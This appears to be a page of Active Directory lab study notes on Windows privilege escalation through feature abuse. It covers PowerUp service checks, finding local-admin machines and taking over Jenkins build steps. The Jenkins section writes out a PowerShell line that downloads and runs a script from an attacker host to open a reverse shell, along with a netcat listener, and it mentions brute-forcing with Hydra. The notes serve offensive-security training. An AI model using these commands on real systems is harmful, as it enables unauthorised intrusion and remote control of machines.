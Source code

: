 # 5.1.1 - Feature Abuse

## Feature Abuse

Some _functionality_ of a web site, possibly even security _features_, may be _abused_ to cause unexpected behavior.

On Windows, some enterprise applications need either Administrative privileges or **SYSTEM privileges**, making them a wonderful avenue for privilege escalation.

Others techniques are presente here here: [Windows Privilege Escalation](https://dev-angelist.gitbook.io/windows-privilege-escalation)

### Jenkins

An older version of Jenkins (before 2.x) is an example of vulnerable enterprise application.

This versions contains numerous plugins, and if you've Admin access, you can go to: http://\<jenkins\_server>/script and execute custom scripts via console.

Without Admin access is possible to add or edit build steps in the build configuration, eg. adding "Execute Windows Batch Command" and enter: `powershell -c <command>` that permits to download and execute scripts.

## Learning Obj 5

_Exploit a service and elevate privileges to local administrator_

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
#Evaluate services with "CanRestart: True" and "Check: Modifiable Services" or "Unquoted Service Paths"
#Utilize the AbuseFunction command indicated
```

_Identify a machine in the domain where student has local administrative access_

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
#It display the machine int the domain where student has local admin access
```

_Using privileges of a user on Jenkins \<ip:8080>, get admin privileges_

```bash
#This Jenkins vs has password policy without a restrictive rule, than can be potentially abused via brute force (Hydra)
#Go to <ip:8080> -> Dashboard -> Modify an existing project -> Configure -> Add build step (write the following command)->
powershell iex (iwr -UseBasicParsing http://<attacker_machine>/Invoke-PowershellTcp.ps1);power -Reverse -IPAddress <attacker_machine> -Port 443
#Execute Windows batch command -> Save
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443 #On attacker machine go in listening mode on port 443
#Run HFS.exe if the connection is blocked
$env:username #Obtain user name
$env:computername
ls env: #Obtain USERDNSDOMAIN
```

